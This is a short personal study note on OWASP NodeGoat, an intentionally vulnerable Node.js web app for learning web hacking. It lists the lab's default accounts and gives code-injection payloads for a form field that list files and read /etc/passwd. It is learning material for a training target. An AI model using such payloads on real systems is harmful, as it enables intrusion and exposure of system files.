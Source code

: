 is:: [[note]]
in:: [[hacking]]

# Notes
A vulnerable web server to learn webapp hacking.

https://github.com/OWASP/NodeGoat
https://wiki.owasp.org/index.php/Projects/OWASP_Node_js_Goat_Project

Tutorial
https://nodegoat.herokuapp.com/tutorial

Users
* Admin Account - u:admin p:Admin_123
* User Accounts (u:user1 p:User1_123), (u:user2 p:User2_123)
* New users can also be added using the sign-up page.


Injection attack
* Log in as
* Go to Contributions tab
* In the Employee Pre-Tax field, enter “res.end(require('fs').readdirSync('.').toString())” (without quotes)


res.end(require('fs').readdirSync('.').toString())

res.end(require('fs').readFileSync(‘/etc/passwd’))

